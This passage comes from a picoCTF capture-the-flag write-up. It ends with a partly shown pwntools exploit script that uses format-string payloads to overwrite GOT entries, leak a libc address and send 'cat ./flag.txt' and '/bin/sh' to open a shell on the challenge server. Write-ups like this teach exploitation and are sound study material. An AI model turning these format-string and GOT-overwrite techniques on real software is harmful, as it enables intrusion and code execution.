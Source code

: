 ```python
p.sendline(B)
```

### TURN 3

- When TURN 2 is done, TURN 3 is pretty easy, we just input the bash command and shell will respone us.

- In `Dockerfile` we can see that flag.txt is in current folder that have binary file

```
COPY bin/flag.txt /srv/app/flag.txt
COPY bin/chall /srv/app/run
```
- So I put one bash command `cat ./flag.txt` and `/bin/sh` to get shell.

```
# TURN 3 ---------------------------------------------------------------------------------------------------------

p.sendline("cat ./flag.txt")
p.sendline("/bin/sh")
```

- I will put whole exploit file in EXPLOIT section, may be you want to read it.

## EXPLOIT

```python
#! /usr/bin/python2

from pwn import *

# address of start loop  0x0000000000400837
# address of pow_got_plt 0x0000000000400716

p = remote("mars.picoctf.net", 31929)

main_addr = 0x400837
pow_got_plt_addr = 0x601040
atoi_got_plt_addr = 0x601058

# offset in libc
offset_system = 0x055410
offset_atoi =   0x047730

# TURN 1--------------------------------------------------------------------------------------------------------
A = "1"
B = "1"
A += "%2080c" + "a"*3 + "%12$hn" + p64(pow_got_plt_addr)
B += "%43$s" + "$!" + p64(atoi_got_plt_addr)

# send A ------------------------------------------------------------------------------
p.recvuntil(": ")
p.sendline(A)
 
# send B -----------------------------------------------------------------------------
p.recvuntil(": ")
p.sendline(B)

# read address of atoi libc ----------------------------------------------------------

p.recvuntil("B: ")   # remove all bytes before

s = p.recvuntil("$!")  # take the byte we want
```